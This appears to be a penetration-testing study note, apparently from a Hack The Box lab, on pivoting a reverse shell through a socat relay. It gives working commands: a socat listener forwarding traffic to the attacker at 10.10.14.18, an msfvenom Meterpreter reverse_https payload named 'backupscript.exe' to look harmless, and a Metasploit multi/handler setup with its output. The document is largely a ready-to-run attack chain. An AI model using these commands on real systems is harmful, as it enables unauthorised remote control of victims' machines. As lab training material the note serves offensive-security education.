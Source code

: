 ```yaml
---
title: Socat Reverse Shell
draft: false
tags:
  - socat
---
```

What is **socat**?

It allows to create pipe sockets between two independent network channels without needing SSH tunneling. 

## Socat Reverse Shell

Let's try spawning a reverse shell from Windows Machine which is two hops away from attakcker machine. Attacker -> Ubuntu -> Windows

Let's start socat listener on Ubuntu machine(PivotHost):

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat will listen locally on port 8080 and forward all the traffic to port 80 on attacker machine (10.10.14.18).

After creating reverse shell with msfvenom, we will transfer it to Windows target:

```shell-session
jadu101@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Now, start msfconsole and spin up multi-handler:

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

Multi-handler is set up to listen on port 80.

Once we run the exploit on Windows target, we will get a reverse shell.

